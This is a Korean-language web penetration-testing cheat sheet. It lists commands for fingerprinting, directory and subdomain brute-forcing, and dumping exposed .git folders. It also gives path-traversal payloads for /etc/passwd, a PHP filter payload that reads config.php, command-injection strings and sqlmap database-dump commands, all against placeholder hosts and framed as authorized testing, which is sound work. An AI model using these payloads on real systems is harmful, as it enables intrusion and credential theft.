

> 웹은 "핑거프린팅 → 콘텐츠 디스커버리 → 인증 흐름 파악 → 파라미터 점검" 순으로 좁힙니다. 아래 예시 대상은 전부 `example.com`·`$TARGET`이며, 실제 진단은 **허가된 범위**에서만 바꿔 씁니다.

## 개념



- **핑거프린팅**: 서버·프레임워크·CMS·버전을 식별해 알려진 취약점과 대조.
- **콘텐츠 디스커버리**: 숨은 디렉터리·백업·`.git`·설정 파일 찾기. 여기서 소스코드·자격증명이 자주 샙니다.
- **파라미터 점검**: 경로 탐색(LFI)·인젝션·업로드·SSRF 후보를 수동으로 확인.

## 공격·우회 구문

허가된 범위에서만. 대상은 전부 플레이스홀더입니다.

### 핑거프린팅 · 콘텐츠 디스커버리

| 상황 | 명령 |
|---|---|
| 기술 스택 탐지 | `whatweb http://example.com` |
| 디렉터리 브루트포스 | `gobuster dir -u http://example.com -w wordlist.txt -t 20` |
| 확장자 포함 | `gobuster dir -u http://example.com -w list.txt -x php,txt,bak` |
| 재귀 탐색(빠름) | `feroxbuster -u http://example.com -w list.txt` |
| 서브도메인 | `gobuster dns -d example.com -w subs.txt` |
| 노출된 .git 추출 | `git-dumper http://example.com/.git/ ./out` |
| WordPress 플러그인 열거 | `wpscan --url http://example.com --enumerate p --plugins-detection aggressive` |
| WordPress 사용자 열거 | `wpscan --url http://example.com --enumerate u` |

### curl — 요청 조작·점검

```bash
# 응답 헤더 확인
curl -i http://example.com/

# 메서드/헤더/바디 지정
curl -X PUT -H 'Content-Type: application/json' -d '{"k":"v"}' http://example.com/api/v1/item

# 경로 탐색(LFI) 후보 — 인코딩 변형도 함께
curl 'http://example.com/index.php?page=../../../../etc/passwd'
curl 'http://example.com/index.php?page=%2e%2e/%2e%2e/%2e%2e/etc/passwd'

# PHP 래퍼로 소스 읽기(base64)
curl 'http://example.com/index.php?page=php://filter/convert.base64-encode/resource=config.php'

# 커맨드 인젝션 후보(구분자 변형)
curl -X POST --data 'name=app%3Bid' http://example.com/run
curl -X POST --data-urlencode 'name=app && id' http://example.com/run
```

> 판단 포인트: LFI가 되면 바로 RCE를 노리기보다 먼저 **설정 파일·로그·세션 경로**를 읽어 자격증명을 확보하는 편이 안정적입니다. `page=` 하나만 보지 말고 모든 파일 참조 파라미터를 같은 방식으로 찔러 봅니다.

### SQL 인젝션 — sqlmap

| 상황 | 명령 |
|---|---|
| GET 파라미터 | `sqlmap -u 'http://example.com/item.php?id=1' -p id` |
| 요청 파일 기반(POST) | `sqlmap -r request.txt -p item` |
| DB 덤프 | `sqlmap -u '...' -p id --dump` |
| 현재 사용자·DBMS | `sqlmap -u '...' -p id --current-user --dbs` |

> 판단 포인트: 자동 도구가 "안 된다"고 해도 수동으로 한 번은 확인합니다 — 응답 길이·오류·시간 지연의 차이가 블라인드 인젝션의 단서입니다. 도구는 확인을 빠르게 해 줄 뿐 판단을 대신하지 않습니다.

## 함께 보기

- [모의침투 작전 흐름](/notes/penetration-testing-operation-flow/)
- [정찰·스캐닝 도구 치트시트](/notes/recon-scanning-cheatsheet/)

## 참고 자료

- [OWASP Web Security Testing Guide](https://owasp.org/www-project-web-security-testing-guide/)
- [CWE-89: SQL Injection](https://cwe.mitre.org/data/definitions/89.html) · [CWE-98: PHP File Inclusion](https://cwe.mitre.org/data/definitions/98.html)
- [MITRE ATT&CK: Exploit Public-Facing Application (T1190)](https://attack.mitre.org/techniques/T1190/)
